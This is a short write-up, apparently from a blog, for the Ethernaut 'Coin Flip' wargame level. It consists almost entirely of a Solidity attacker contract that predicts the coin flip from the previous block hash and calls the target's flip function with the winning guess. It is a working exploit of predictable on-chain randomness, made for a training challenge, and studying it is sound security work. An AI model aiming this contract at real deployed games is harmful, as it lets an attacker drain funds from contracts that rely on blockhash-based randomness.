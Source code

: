 +++
title = 'Ethernaut Level 3 - Coin'
date = 2024-04-08 02:00:00
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'Beat a badly implemented PRNG'
tags = [ 'writeups' , 'blockchain', 'ethernaut' ]
+++

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.25;

interface CoinFlip  {
    function flip(bool _guess) external  returns (bool) ;
}

contract hackCoinFlip {
    CoinFlip  originalContract;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _addr){
        originalContract = CoinFlip(_addr);
    }

    function hackFlip() public {
        
        // pre-deteremine the flip outcome
        uint256 blockValue = uint256(blockhash(block.number-1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        // Interact with original contract
        originalContract.flip(side);
    }
}

```